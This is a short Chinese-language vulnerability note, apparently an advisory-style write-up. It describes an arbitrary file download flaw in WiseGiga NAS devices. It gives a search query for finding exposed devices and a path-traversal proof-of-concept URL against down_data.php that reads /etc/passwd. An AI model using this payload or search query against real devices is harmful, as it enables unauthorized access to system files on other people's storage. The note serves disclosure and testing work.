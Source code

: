 # WiseGiga NAS down_data.php 任意文件下载漏洞

## 漏洞描述

WiseGiga 是一家销售网络连接存储（NAS ）产品的韩国公司。

WISEGIGA NAS down_data.php 存在任意文件下载漏洞，由于 /down_data.php 页面 filename 参数过滤不严，导致可以读取系统敏感文件。

## 漏洞影响

```
WiseGiga NAS
```

## 网络测绘

```
app="WISEGIGA-NAS"
```

## 漏洞复现

主页面

![image-20220628113649787](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202206281136917.png)

验证POC

```
/down_data.php?filename=../../../../../../../../../../../../../../etc/passwd
```

![image-20220628113749412](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202206281137504.png)